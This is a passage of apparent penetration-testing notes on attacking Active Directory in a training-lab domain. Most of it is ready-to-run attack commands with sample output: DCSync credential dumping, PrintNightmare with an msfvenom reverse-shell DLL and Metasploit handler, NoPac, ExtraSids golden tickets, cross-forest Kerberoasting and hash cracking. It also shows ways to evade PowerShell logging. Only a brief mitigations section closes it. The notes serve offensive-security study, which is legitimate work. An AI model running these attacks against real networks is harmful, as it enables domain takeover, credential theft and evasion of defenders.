# -pwd-last-set to see when each account's password was last changed
# -history if we want to dump password history
# -user-status flag to check and see if a user is disabled. 

# This will generate 3 files with dumped secrets
```


#### Reversible Encryption Password Storage Set



When this option is set on a user account, the passwords are stored using RC4 encryption, the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.

Enumerate accounts with reversible Encryption Password Storage Set with Active Directive cmdlet:

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

Enumerate accounts with reversible Encryption Password Storage Set with PowerView:

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

To decrypt it we can use Impacket’s secretsdump.py:

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

#### Mimikatz

##### Way 1:
Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
runas /netonly /user:$domain\$userSamAccountName powershell
# Example:
# runas /netonly /user:INLANEFREIGHT\adunn powershell
```

And now, from powershell:

```powershell
.\mimikatz.exe

#########
# mimikatz command
########

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

##### Way 2:

If we have access to the host with an user who has DCSync privileges (DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege) on the domain, we can run from powershell the attack in one line:

```powershell
# From my Evil-WinRm Connection:
.\mimikatz.exe privilege::debug "lsadump::dcsync
/domain:$domain /user:Administrator" exit
```


## ⛔ Privileged Access

Sometimes we don't  have local admin rights on any hosts in the domain. However there are other ways to access the host:

- `Remote Desktop Protocol` (`RDP`) - is a remote access/management protocol that gives us GUI access to a target host
    
- [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2) - also referred to as [PSRemoting or Windows Remote Management (WinRM) access](5985-5986-winrm-windows-remote-management.md), is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell
    
- `MSSQL Server` - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. 

Via BloodHound we can enumerate the following edges to see what types of remote access privileges a given user has:

- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

### Remote Desktop

Enumerating the Remote Desktop Users Group with PowerView.ps1.

```powershell
Import-Module .\PowerView.ps1

# Enumerate members accessing current machine
Get-NetLocalGroupMember -GroupName "Remote Desktop Users"

# Enumerate members accessing a given host
Get-NetLocalGroupMember -ComputerName $HostName -GroupName "Remote Desktop Users"
# Example:
# Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

```

From Bloodhound, we can check the Analysis tab and run the pre-built queries `Find Workstations where Domain Users can RDP` or `Find Servers where Domain Users can RDP`.

Test access with
Linux: xfreerdp, rdesktop, Remmina 
Windows:  mstsc.exe.

### WinRM

Enumerating the Remote Management Users Group with PowerView.ps1.

```powershell
Import-Module .\PowerView.ps1

# Enumerate members accessing current machine
Get-NetLocalGroupMember -GroupName "Remote Management Users"

# Enumerate members accessing a given host
Get-NetLocalGroupMember -ComputerName $HostName -GroupName "Remote Management Users"
# Example:
# Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

In Bloodhound, we can use this Cypher query and add it as a custom query:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

To access from Linux, use [evil-winrm](evil-winrm.md).

```bash
evil-winrm -i $ip -u <username -p <password>

evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
# -H: Hash
```

To access from Windows, use Powershell and the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet:

```powershell
# Create a SecureString object_
$password = ConvertTo-SecureString "$passwordOfUser" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("$domain\$userSamAccountName", $password)

# Access the host
Enter-PSSession -ComputerName $hostName -Credential $cred

#####
# Example:
# $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
# $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
# Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

### SQL Server Admin

 Enumerate via Bloodhound and the `SQLAdmin` edge. We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

Enumerating MSSQL Instances with [PowerUpSQL](powerupsql.md). The command needs to be ran by an user with `SQLAdmin` rights: 

```powershell
cd C:\Tools\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

 Authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell
Get-SQLQuery -Verbose -Instance "$ipHost,$port" -username "$domain\$userSamAccountName" -password "$password" -query 'Select @@version'

# Example:
# Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```
 
We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the Impacket toolkit.

```bash
mssqlclient.py $domain/$user@$ip -windows-auth
# Example:
# mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

We could then choose `enable_xp_cmdshell` to enable the [xp_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```bash
SQL> enable_xp_cmdshell
```

Finally, we can run commands in the format `xp_cmdshell <command>`.

```bash
xp_cmdshell whoami /priv
```

>Finally, we can run commands in the format `xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM` level privileges, depending on the target host, and use this access to continue toward our goal.


## 🖨️ PrintNightmare

`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems.

We will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit.

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

For this exploit to work successfully, we will need to use cube0x0's version of Impacket:

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Enumerating for MS-RPRN:

```bash
# We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.
rpcdump.py @$DomainControllerIP | egrep 'MS-RPRN|MS-PAR'
# Example:
# rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using msfvenom.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IPhost LPORT=8080 -f dll > $FileName.dll
# Example:
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

We will then host this payload in an SMB share we create on our attack host using smbserver.py.

```bash
# Creating a Share with smbserver.py
sudo smbserver.py -smb2support $ShareName /path/to/$FileName.dll
# Example:
# sudo smbserver.py -smb2support CompData /home/
# This will leave our terminal in the host machine with no other use than that of sharing.
```

Then we will need to open a two new terminals in our attacker machine:

```bash
# In the first terminal we will configure ant start a MSF multi/handler
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```

```bash
# In the second terminal we will connect via ssh with the host machine:
ssh $user@$ip

# Then we run the exploit:
sudo python3 /opt/CVE-2021-1675/CVE-2021-1675.py $user/$user:$password@$domainControllerIP  '\\$ipHostMachine\$ShareName\$filename.dll'
# Example:
# sudo python3 /opt/CVE-2021-1675/CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

The payload will then call back to our multi handler giving us an elevated SYSTEM shell.

##  Print Spooler 
The Print Spooler exploitation leverages the Windows Print Spooler service in conjunction with the SeImpersonatePrivilege privilege. The goal is to impersonate a SYSTEM token to escalate privileges. Tools like PrintSpoofer automate this process effectively. Below are detailed steps for exploiting this vulnerability:


## 🪤 NoPac (SamAccountName Spoofing)

!!! tips "Detailed explanations"
	- [noPac: A Tale of Two Vulnerabilities That Could End in Ransomware](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
	- [SAM Name impersonation](https://techcommunity.microsoft.com/users/daniel%20naim/164126).

This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 42278                                                                      | 42287                                                                                         |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

```bash
# Ensuring Impacket is Installed
git clone https://github.com/SecureAuthCorp/impacket.git

python setup.py install 

# Cloning the NoPac Exploit Repo
git clone https://github.com/Ridter/noPac.git
```

Once Impacket is installed and we ensure the repo is cloned to our attack box, we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (scanner.py) then use the exploit (noPac.py) to gain a shell as NT AUTHORITY/SYSTEM. 


```bash
# First we will scan:
sudo python3 scanner.py $domain/$userSamAccounName:$password -dc-ip $domainControllerIP -use-ldap
# Example:
# sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

We will obtain the `ms-DS-MachineAccountQuota` number. If it is set to 0, the attack will not work.

```bash
# Running NoPac & Getting a semi-interactive shell session  using smbexec.py -https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py. This could be "noisy" or may be blocked by AV or EDR.
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname -shell --impersonate $userAdmin -use-ldap
# Example: 
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Important: It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run (We can use `ls` to confirm).

```bash
# We could then use the cache file to perform a pass-the-ticket and perform further attacks such as DCSync.  Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc-user $domain/$userAdmin
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

# We can also dump all
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc
```

### Mitigations

**If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py.**

If Windows Defender (or another AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail. 

The first thing smbexec.py does is create a service called `BTOBTO`. Another service called `BTOBO` is created, and any command we type is sent to the target over SMB inside a .bat file called `execute.bat`. With each new command we type, a new batch script is created and echoed to a temporary file that executes said script and deletes it from the system. Let's look at a Windows Defender log to see what behavior was considered malicious.

## 💱  Exchange Related Group Membership 

**See some techniques at:** [https://github.com/gdedrouas/Exchange-AD-Privesc](https://github.com/gdedrouas/Exchange-AD-Privesc)
This repository provides a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security. This is a side project of AD-Control-Paths, an AD permissions auditing project to which I recently added some Exchange-related modules.

- The group `Exchange Windows Permissions` is not listed as a protected group, but members are granted the ability to write a DACL to the domain object.
- The Exchange group `Organization Management` is another extremely powerful group (effectively the "Domain Admins" of Exchange) and can access the mailboxes of all domain users. It is not uncommon for sysadmins to be members of this group. This group also has full control of the OU called `Microsoft Exchange Security Groups`, which contains the group `Exchange Windows Permissions`.

If we can compromise an Exchange server, this will often lead to Domain Admin privileges. 


## 👀 Attacking Domain Trusts # 1: Child -> Parent Trusts

### ExtraSids Attack - Mimikatz

The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

The attack explained in a nugshell:

- Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control.
- When logging in with this account, all of the SIDs associated with the account are added to the user's token.
- If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform DCSync and create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001/) or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.

#### Introduction to SID History and SID Filtering
[SID Filtering](https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) prevents such abuse by verifying and blocking unauthorized or suspicious SIDs during authentication across a trust.

>**SID History** exists specifically to allow migrated users to access resources in the original domain. Enabling SID Filtering disrupts this functionality by ignoring SID history during authentication across trust boundaries. This trade-off arises because:
>
>1. **Functionality Comes with Risk:**  
    Allowing SID history in a trust scenario opens the door for **privilege escalation attacks** through SID injection.
  >  
>2. **SID History is Not Always Needed:**
  >  
>    - In many migration scenarios, users may no longer need access to the original domain once migration is complete. In such cases, the risks of allowing SID history outweigh the benefits.
>  - SID Filtering is particularly useful in inter-forest or external trust scenarios where one environment does not fully trust the security practices of the other.
>    
>3. **Balancing Security and Usability:**  
>    Organizations must evaluate their specific requirements. If SID history functionality is crucial, **SID Filtering can be disabled selectively** for specific trusts while mitigating risks through other means (e.g., enhanced monitoring or strict trust policies).


> **Why SID Filtering is Still Useful**
>
>While SID Filtering blocks the main functionality of SID history, its purpose is not to disable SID history entirely but to **control where and when SID history can be used**:
>
>- **Within the Same Forest:**  
>   SID Filtering is typically not applied to intra-forest authentication because all domains in a forest share the same schema and security boundary. SID History works seamlessly here.  
 >  Example: Users migrating between domains in the same forest (`DomainA.local` to `DomainB.local`) can use SID history without interference.
 >   
>- **Between Different Forests:**  
    Trusts between forests (or external domains) are high-risk. SID Filtering ensures that only valid SIDs from the trusted forest or domain are honored, blocking any unauthorized or injected SIDs.

#### The attack

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

##### Step 1: getting the KRBTGT hash from the child domain
First, we need to obtain the NT hash for the [KRBTGT](https://adsecurity.org/?p=483) account, which is a service account for the Key Distribution Center (KDC) in Active Directory.

Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

```cmd-session
# Go to mimikatz.exe file in the explorer and execute as admin

lsadump::dcsync /user:$domain\$user
# Example:
# .\mimikatz.exe
# lsadump::dcsync /user:LOGISTICS\krbtgt
```

Results:

```
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 10:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e

Supplemental Credentials:

SNIP

```

KRBTGT hash : `9d765b482771505cbe97411065964d5f`.

##### Step 2: getting the SID for the child domain

```powershell
Import-Module .\PowerView.ps1
Get-DomainSID
```

However it was also visible in the Mimikatz output above.

##### Step 3: getting the name of a target user in the child domain (does not need to exist!)

For instance, `hacker`.

##### Step 4: getting the FQDN of the child domain.

It was also visible in the Mimikatz output above: `LOGISTICS.INLANEFREIGHT.LOCAL`.


##### Step 5: getting the SID of the Enterprise Admins group of the root domain

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. 

```powershell
Get-DomainGroup -Domain $domain -Identity "$GroupName" | select distinguishedname,objectsid
# Example: 
# Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet:

```powershell
Get-ADGroup -Identity "$GroupName" -Server "$DomainServer"`
# Example: 
# Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

Results:

```
distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```


##### Step 6: The attack

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Before the attack, we can confirm no access to the file system of the DC in the parent domain:

```powershell
# List C: in the parent domain:
ls \\$parenhostname.$domain\c$
# Example: 
# ls \\academy-ea-dc01.inlanefreight.local\c$
```

Using Mimikatz and the data listed above, we can create a Golden Ticket to access all resources within the parent domain.

```powershell
kerberos::golden /user:$madeupUserName /domain:$targetedFQDN /sid:$sidTargetedDomain /krbtgt:$NTLMhashOfKRBTGTaccountDomain  /sids:$SIDofEnterpriseAdminGroup /ptt

# Example:
# kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

Now, let's list the kerberos tickets in memory:

```powershell
klist
```

Now we can perform actions in the parent domain, such as reading a flag:

```powershell
# List C: in the parent domain:
ls \\$parenhostname.$domain\c$
# Example: 
# ls \\academy-ea-dc01.inlanefreight.local\c$

# Read the flag
cat \\$parenhostname.$domain\c$path\to\file.txt
# Example: 
# cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

### Cross-Forest Kerberoasting

 Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

#### Enumerating SPNs

Enumerating Accounts for Associated SPNs Using Get-DomainUser:

```powershell
Get-DomainUser -SPN -Domain $TargetDomain | select SamAccountName
# Example:
# Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

```

Results:

```
samaccountname
--------------
krbtgt
mssqlsvc
```

There is one account with an SPN in the target domain. 

#### Getting which groups is SPM member of

A quick check shows that this account is a member of the Domain Admins group in the target domain.

```powershell
Get-DomainUser -Domain $TargetDomain -Identity $interestingUserSamAccountName | select samaccountname,memberof
# Example:
# Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
```


#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```powershell
.\Rubeus.exe kerberoast /domain:$TargetDomain /user:$interestingUserSamAccountName /nowrap
# Example: 
# .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

When getting the kerberos ticket, we can crack it: 


```shell-session
hashcat -m 13100 ticketTocrack /usr/share/wordlists/rockyou.txt 
# Results: 1logistics
```


### Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

#### Using Get-DomainForeignGroupMember

For instance,  the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

```powershell
Get-DomainForeignGroupMember -Domain $targeteddomain
# Example:
# Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```

Results:
```
GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL
```

If we convert the SID to name:
```powershell
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
# Results: INLANEFREIGHT\administrator
```

Meaning that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member.

#### Accessing DC03 Using Enter-PSSession

```powershell
Enter-PSSession -ComputerName $hostname.$targeteddomain -Credential $ParentDomain\administrator
# Example:
# Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
# From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain

```

### SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest.

If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest.


## Evasion Techniques

#### Downgrade Powershell

Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. 

With [Script Block Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2) enabled, we can see that whatever we type into the terminal gets sent to this log. If we downgrade to PowerShell V2, this will no longer function correctly. Our actions after will be masked since Script Block Logging does not work below PowerShell 3.0.

```powershell
powershell.exe -version 2
```

PowerShell Operational Logs are kept under under `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`.
Also the `Windows PowerShell` log is located at `Applications and Services Logs > Windows PowerShell`.

#### Net Commands Trick

Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string. Example:

```powershell
net1 user /domain	
```


## Mitigations

1. `Auditing for and removing dangerous ACLs`

Organizations should have regular AD audits performed but also train internal staff to run tools such as BloodHound and identify potentially dangerous ACLs that can be removed.

2. `Monitor group membership`

Visibility into important groups is paramount. All high-impact groups in the domain should be monitored to alert IT staff of changes that could be indicative of an ACL attack chain.

3. `Audit and monitor for ACL changes`

Enabling the [Advanced Security Audit Policy](https://docs.microsoft.com/en-us/archive/blogs/canitpro/step-by-step-enabling-advanced-security-audit-policy-via-ds-access) can help in detecting unwanted changes, especially [Event ID 5136: A directory service object was modified](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136) which would indicate that the domain object was modified, which could be indicative of an ACL attack. If we look at the event log after modifying the ACL of the domain object, we will see some event ID `5136` created. If we check out the `Details` tab, we can see that the pertinent information is written in [Security Descriptor Definition Language (SDDL)](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) which is not human readable.

We can use the [ConvertFrom-SddlString cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/convertfrom-sddlstring?view=powershell-7.2) to convert this to a readable format.

```powershell
# Converting the SDDL String into a Readable Format
ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;WD)(OA;CI;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CR;00299570-246d-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;CCDCLC;c975c901-[CUT]" 
```
